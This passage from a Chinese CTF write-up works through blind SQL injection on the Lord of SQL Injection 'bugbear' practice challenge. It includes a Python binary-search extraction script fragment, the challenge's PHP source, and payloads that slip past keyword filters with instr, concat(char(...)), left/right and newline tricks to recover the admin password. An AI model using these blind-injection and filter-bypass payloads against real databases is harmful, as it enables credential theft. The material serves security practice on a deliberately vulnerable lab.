 ```python
				m=(s+t)/2
				if doinject('\'||ascii(id)=97%26%26ascii(substr(pw,'+str(i)+',1))>'+str(m)+'%23'):
					s=m+1
				else:
					t=m
			res = res+chr(m)
			print '[*]%s'% res
		print '[*] ok ! get it!'
```

这里直接 ||ascii(id)=97就是获取id那一列首字母为a的行,正如你看到的，如果有两行首字母都是a的话，这种方法就不可以，不过但order limit等关键字被过滤时，可以用此方法一试。

## 0x03.新的风暴

接着往后面做题目，遇到了这道题。

二。题目链接:http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php

代码：

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

跟上面那题一样，还是去爆破，关键点在NO上，只是要如何绕过那些个正则，随便搜一下手册，就可以找到很多办法。下面这篇文章就总结了一些：

http://www.cnblogs.com/xiangxiaodong/archive/2011/02/21/1959589.html

关键在于一个ord(正则了or)不能用，我们要取出字符可以用左右法，left(a,n),right(a,n)。函数功能分别为取出字符串a最左边n个，最右边n个。然后根据前面写下的脚本改一下，重要就是四个判断改变

```php
            if doinject('||instr(id,concat(char(97),char(100),char(109),char(105),char(110)))%26%26length(pw)>'+str(m)+'%23'):
----------------------------
        if doinject('||instr(id,concat(char(97),char(100),char(109),char(105),char(110)))%26%26length(pw)>'+str(m)+'%23'):
-----------------------------
					if doinject('||instr(id,concat(char(97),char(100),char(109),char(105),char(110)))%26%26right(left(pw,'+str(i)+'),1)%0ain(char('+str(t)+'))%23'):#important 
----------------------------
				if doinject('||instr(id,concat(char(97),char(100),char(109),char(105),char(110)))%26%26right(left(pw,'+str(i)+'),1)>(char('+str(m)+'))%23'):
```
